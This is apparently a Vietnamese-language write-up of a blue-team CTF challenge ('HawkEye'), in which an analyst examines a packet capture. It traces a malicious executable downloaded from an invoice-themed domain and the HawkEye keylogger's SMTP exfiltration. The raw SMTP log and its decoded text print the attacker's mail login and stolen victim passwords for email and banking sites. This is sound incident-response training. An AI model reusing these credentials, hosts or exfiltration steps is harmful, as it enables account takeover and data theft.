










## Description 
> An accountant at your organization received an email regarding an invoice with a download link. Suspicious network traffic was observed shortly after opening the email. As a SOC analyst, investigate the network trace and analyze exfiltration attempts.
> Tạm dịch : Kế toán viên tại tổ chức của bạn đã nhận được email liên quan đến hóa đơn có liên kết tải xuống. Lưu lượng truy cập mạng đáng ngờ đã được quan sát ngay sau khi mở email. Với tư cách là nhà phân tích SOC, hãy điều tra dấu vết mạng và phân tích các nỗ lực lọc.
### Lưu ý
- Bởi vì kế toán viên đã tải xuống và chạy phần mềm độc hại trên máy nội bộ, nên địa chỉ ip của máy đã bị nhiễm mình sẽ gọi chung luôn là attacker (nó với victim là 1)
## Link challenge
> https://cyberdefenders.org/blueteam-ctf-challenges/hawkeye/
## Solution 
- Mở file với wireshark, ta sẽ phân tích sơ lược ban đầu trước 
- 
- Theo đó  ta thấy rằng có tất cả `4003` packet được truyền đi trong quá trình capture, thời gian capture là `01:03:41` được tìm thấy tại mục Elapsed
- Tiếp đó thời gian bắt đầu là `2019-04-11 03:37:07` và kết thúc ở  `2019-04-11 04:40:48`, tuy nhiên điểm đặc biệt ở đây là giờ địa phương, nếu muốn ta có thể chuyển sang giờ UTC bằng cách chỉnh cửa sổ view => time => UTC.. hoặc có thể xem chi tiết trong từng packet 
- 
- Theo đó tính theo thời gian UTC ta sẽ biết file được capture vào khoảng `Apr 10, 2019 20:37:07.129730000 UTC` đến `Apr 10, 2019 21:40:48.690963000 UTC`
- Tiếp tục kiểm tra các giao thức được sử dụng 
- 
- Tìm hiểu sơ qua các giao thức 1 tí 

<details>
<summary>
Giao thức SMB 
</summary>

```
Giao thức SMB, viết tắt của Server Message Block, là giao thức giao tiếp máy chủ - máy khách (server - cilent) được sử dụng để chia sẻ quyền truy cập vào các tệp, máy in, cổng nối tiếp và các tài nguyên khác trên mạng. SMB có thể mang các giao thức giao dịch để liên lạc giữa các qua trình.

```

- 


### Chức năng của SMB là gì?
```
Chức năng của SMB là gì cũng được nhiều người quan tâm và tìm hiểu. Ưu điểm lớn nhất của giao thức SMB server là khả năng hỗ trợ Unicode hiệu quả. Bên cạnh đó, SMB cũng cung cấp nhiều tính năng quan trọng như:

Thông qua sử dụng giao thức SMB khác để tìm kiếm máy chủ
Xác thực các thư mục và file được chia sẻ
Cho phép in qua mạng
Các thay đổi trong thư mục và file được thông báo cho người dùng
Xử lý các thuộc tính mở rộng của file
Sắp xếp, đàm phán để tạo sự tương thích giữa các hình thái củA SMB
Khóa file đang truy cập theo yêu cầu
```
</details>

<details>

<summary>
 LLMNR (Link Local Multicast Name Resolution)
</summary>

```
một giao thức dựa trên định dạng gói Domain Name System (DNS) cho phép cả máy chủ IPv4 và IPv6 thực hiện phân giải tên cho các máy chủ trên cùng một liên kết cục bộ. Nó được bao gồm trong Windows Vista , Windows Server 2008 , Windows 7 , Windows 8 , Windows 10 . [1] Nó cũng được triển khai bởi systemd -resolved trên Linux. [2] LLMNR được định nghĩa trong RFC 4795 nhưng không được chấp nhận làm tiêu chuẩn IETF. [3]
```

</details>

- Với giao thức llmnr này ta cần check qua 1 tí 
- Filter nó ra ta thấy nó chỉ có 1 chiều là từ `10.4.10.132` và tên máy là Beijing-5cd1-PC đến 	`224.0.0.252` và từ máy có địa chỉ mac là `00:08:02:1c:47:ae `đến máy có địa chỉ mac là `01:00:5e:00:00:fc`
- 
- 
- Tra google với cú pháp `manufacturer of mac address` ta có thể xác định được tên của Manufacturer là Hewlett Packards (mặc dù nó đã hiện bên địa chỉ mac nhưng check cho chắc 😉)
- Tiếp tục kiểm tra tiếp biết được trụ sở chính của có nằm tại Palo Alto
- 
- Bắt đầu phân tích sâu, trước tiên ta thấy 1 vài gói tcp, chỗ này cũng không đáng quan tâm lắm 
- Kéo xuống 1 tí thấy rằng có sự tương tác giữa ip `10.4.10.4` và ip `10.4.10.132`
- 
- 
- Nhìn chỗ này ip `10.4.10.132` liên tục gửi request đến `10.4.10.4`, khả năng rất cao ip `10.4.10.4` ở đây là máy chủ. Còn ip `10.4.10.132`là attacker (attacker ở đây cũng chính là máy nạn nhân)
- Kiểm tra user agent (đây là vị trí chứa thông tin cá nhân của trình duyệt và thiết bị, User Agent cung cấp cho máy chủ web thông tin cụ thể về môi trường truy cập của người dùng.) bằng cách lọc các gói bằng `http.user_agent` 
```
GET /proforma/tkraw_Protected99.exe HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: proforma-invoices.com
Connection: Keep-Alive
```
- Xác định được máy tính nạn nhân là `Windows NT 6.1`

- Ở gói 204 attacker call tới miền proforma-invoices.com có ip là `217.182.138.150`

- Tại đây ta thấy attacker thực hiện 1 lệnh get tới file /proforma/tkraw_Protected99.exe khả năng cao đây là malicous, nó được lưu trữ trên sever : `LiteSpeed`

- 

```
HTTP/1.1 200 OK
Last-Modified: Wed, 10 Apr 2019 04:44:31 GMT
Content-Type: application/x-msdownload
Content-Length: 2025472
Accept-Ranges: bytes
Date: Wed, 10 Apr 2019 20:37:54 GMT
Server: LiteSpeed
Connection: Keep-Alive
```

- Up lên virustotal thì thấy 1 vài thông tin 

```
md5 : 71826ba081e303866ce2a2534491a2f7
Compiler: EP:Microsoft Visual C/C++ (2013-2017) [EXE32] 
name : exedosyasi
...
```


- kéo xuống tí nữa ta thấy được attacker đăng nhập và gửi email bao gồm thông tin đăng nhập ra ngoài gửi đến ip 23.229.162.69 tra thông tin tại [https://ipinfo.io/](https://ipinfo.io/) thì thấy địa chỉ này đến từ US (Mỹ)
- Thêm nữa nó chạy trên nền của phần mềm `Exim 4.91`
```
220-p3plcpnl0413.prod.phx3.secureserver.net ESMTP Exim 4.91 #1 Wed, 10 Apr 2019 13:38:15 -0700 
220-We do not authorize the use of this system to transport unsolicited, 
220 and/or bulk e-mail.
EHLO Beijing-5cd1-PC
250-p3plcpnl0413.prod.phx3.secureserver.net Hello Beijing-5cd1-PC [173.66.146.112]
250-SIZE 52428800
250-8BITMIME
250-PIPELINING
250-AUTH PLAIN LOGIN
250-CHUNKING
250-STARTTLS
250-SMTPUTF8
250 HELP
AUTH login c2FsZXMuZGVsQG1hY3dpbmxvZ2lzdGljcy5pbg==
334 UGFzc3dvcmQ6
U2FsZXNAMjM=
235 Authentication succeeded
MAIL FROM:<sales.del@macwinlogistics.in>
250 OK
RCPT TO:<sales.del@macwinlogistics.in>
250 Accepted
DATA
354 Enter message, ending with "." on a line by itself
MIME-Version: 1.0
From: sales.del@macwinlogistics.in
To: sales.del@macwinlogistics.in
Date: 10 Apr 2019 20:38:08 +0000
Subject: =?utf-8?B?SGF3a0V5ZSBLZXlsb2dnZXIgLSBSZWJvcm4gdjkgLSBQYXNzd29yZHMgTG9ncyAtIHJvbWFuLm1jZ3VpcmUgXCBCRUlKSU5HLTVDRDEtUEMgLSAxNzMuNjYuMTQ2LjExMg==?=
Content-Type: text/plain; charset=utf-8
Content-Transfer-Encoding: base64

SGF3a0V5ZSBLZXlsb2dnZXIgLSBSZWJvcm4gdjkNClBhc3N3b3JkcyBMb2dzDQpyb21hbi5t
Y2d1aXJlIFwgQkVJSklORy01Q0QxLVBDDQoNCj09PT09PT09PT09PT09PT09PT09PT09PT09
PT09PT09PT09PT09PT09PT09PT09PT09DQpVUkwgICAgICAgICAgICAgICA6IGh0dHBzOi8v
bG9naW4uYW9sLmNvbS9hY2NvdW50L2NoYWxsZW5nZS9wYXNzd29yZA0KV2ViIEJyb3dzZXIg
ICAgICAgOiBJbnRlcm5ldCBFeHBsb3JlciA3LjAgLSA5LjANClVzZXIgTmFtZSAgICAgICAg
IDogcm9tYW4ubWNndWlyZTkxNEBhb2wuY29tDQpQYXNzd29yZCAgICAgICAgICA6IFBAc3N3
MHJkJA0KUGFzc3dvcmQgU3RyZW5ndGggOiBWZXJ5IFN0cm9uZw0KVXNlciBOYW1lIEZpZWxk
ICAgOiANClBhc3N3b3JkIEZpZWxkICAgIDogDQpDcmVhdGVkIFRpbWUgICAgICA6IA0KTW9k
aWZpZWQgVGltZSAgICAgOiANCkZpbGVuYW1lICAgICAgICAgIDogDQo9PT09PT09PT09PT09
PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PQ0KDQo9PT09PT09PT09PT09
PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PQ0KVVJMICAgICAgICAgICAg
ICAgOiBodHRwczovL3d3dy5iYW5rb2ZhbWVyaWNhLmNvbS8NCldlYiBCcm93c2VyICAgICAg
IDogQ2hyb21lDQpVc2VyIE5hbWUgICAgICAgICA6IHJvbWFuLm1jZ3VpcmUNClBhc3N3b3Jk
ICAgICAgICAgIDogUEBzc3cwcmQkDQpQYXNzd29yZCBTdHJlbmd0aCA6IFZlcnkgU3Ryb25n
DQpVc2VyIE5hbWUgRmllbGQgICA6IG9ubGluZUlkMQ0KUGFzc3dvcmQgRmllbGQgICAgOiBw
YXNzY29kZTENCkNyZWF0ZWQgVGltZSAgICAgIDogNC8xMC8yMDE5IDI6MzU6MTcgQU0NCk1v
ZGlmaWVkIFRpbWUgICAgIDogDQpGaWxlbmFtZSAgICAgICAgICA6IEM6XFVzZXJzXHJvbWFu
Lm1jZ3VpcmVcQXBwRGF0YVxMb2NhbFxHb29nbGVcQ2hyb21lXFVzZXIgRGF0YVxEZWZhdWx0
XExvZ2luIERhdGENCj09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09
PT09PT09PT09DQoNCj09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09
PT09PT09PT09DQpOYW1lICAgICAgICAgICAgICA6IFJvbWFuIE1jR3VpcmUNCkFwcGxpY2F0
aW9uICAgICAgIDogTVMgT3V0bG9vayAyMDAyLzIwMDMvMjAwNy8yMDEwDQpFbWFpbCAgICAg
ICAgICAgICA6IHJvbWFuLm1jZ3VpcmVAcGl6emFqdWtlYm94LmNvbQ0KU2VydmVyICAgICAg
ICAgICAgOiBwb3AucGl6emFqdWtlYm94LmNvbQ0KU2VydmVyIFBvcnQgICAgICAgOiA5OTUN
ClNlY3VyZWQgICAgICAgICAgIDogTm8NClR5cGUgICAgICAgICAgICAgIDogUE9QMw0KVXNl
ciAgICAgICAgICAgICAgOiByb21hbi5tY2d1aXJlDQpQYXNzd29yZCAgICAgICAgICA6IFBA
c3N3MHJkJA0KUHJvZmlsZSAgICAgICAgICAgOiBPdXRsb29rDQpQYXNzd29yZCBTdHJlbmd0
aCA6IFZlcnkgU3Ryb25nDQpTTVRQIFNlcnZlciAgICAgICA6IHNtdHAucGl6emFqdWtlYm94
LmNvbQ0KU01UUCBTZXJ2ZXIgUG9ydCAgOiA1ODcNCj09PT09PT09PT09PT09PT09PT09PT09
PT09PT09PT09PT09PT09PT09PT09PT09PT09DQoNCg==

.
250 OK id=1hEJz6-00G6e9-Af
421 p3plcpnl0413.prod.phx3.secureserver.net lost input connection

```
- email được mã hoá base64, sau khi deocde ta có dữ liệu như sau 
```
- Đây là thông tin đăng nhập 
login c2FsZXMuZGVsQG1hY3dpbmxvZ2lzdGljcy5pbg==                      =[from base64]=>    sales.del@macwinlogistics.in
334 UGFzc3dvcmQ6                                                    =[from base64]=>    Password:
U2FsZXNAMjM=                                                        =[from base64]=>    Sales@23
```
- Còn đây là thông tin hacker thu thập được và gửi đi 
```
HawkEye Keylogger - Reborn v9
Passwords Logs
roman.mcguire \ BEIJING-5CD1-PC

==================================================
URL               : https://login.aol.com/account/challenge/password
Web Browser       : Internet Explorer 7.0 - 9.0
User Name         : roman.mcguire914@aol.com
Password          : P@ssw0rd$
Password Strength : Very Strong
User Name Field   : 
Password Field    : 
Created Time      : 
Modified Time     : 
Filename          : 
==================================================

==================================================
URL               : https://www.bankofamerica.com/
Web Browser       : Chrome
User Name         : roman.mcguire
Password          : P@ssw0rd$
Password Strength : Very Strong
User Name Field   : onlineId1
Password Field    : passcode1
Created Time      : 4/10/2019 2:35:17 AM
Modified Time     : 
Filename          : C:\Users\roman.mcguire\AppData\Local\Google\Chrome\User Data\Default\Login Data
==================================================

==================================================
Name              : Roman McGuire
Application       : MS Outlook 2002/2003/2007/2010
Email             : roman.mcguire@pizzajukebox.com
Server            : pop.pizzajukebox.com
Server Port       : 995
Secured           : No
Type              : POP3
User              : roman.mcguire
Password          : P@ssw0rd$
Profile           : Outlook
Password Strength : Very Strong
SMTP Server       : smtp.pizzajukebox.com
SMTP Server Port  : 587
==================================================
```
- Sau khi decode thấy rằng hacker đã dựa trên malware `HawkEye Keylogger ` là biến thể của phần mềm `Reborn v9`
<details>
<summary>
HawkEye Keylogger
</summary>

```
Phần mềm độc hại HawkEye có khả năng đánh cắp thông tin từ các thiết bị bị ảnh hưởng, nó hoạt động như một trình tải và phần mềm độc hại cũng tìm nạp phần mềm độc hại khác vào thiết bị.
Email spam dường như có nguồn gốc từ ngân hàng Tây Ban Nha mang một zip chứa tệp .lnk (hình ảnh giả mạo), khi hình ảnh được mở, phần mềm độc hại sẽ được kích hoạt và tận dụng PowerShell để thiết lập kết nối với máy chủ C2 của kẻ tấn công và thả thêm tải trọng.
```


### Chức Năng Của Phần Mềm Độc Hại HawkEye
```
- Ăn cắp mật khẩu email
- Ăn cắp mật khẩu trình duyệt web
- Keylogging và chụp ảnh màn hình
- Trộm ví bitcoin
- Ăn cắp trình quản lý tải xuống Internet
- Ăn cắp mật khẩu JDownloader
- Kiểm tra chống vi-rút
- Kiểm tra tường lửa
```
</details>

- So sánh giữa 2 lần gửi email, thấy rằng cứ sau mỗi 10 phút hacker sẽ gửi email 1 lần
- 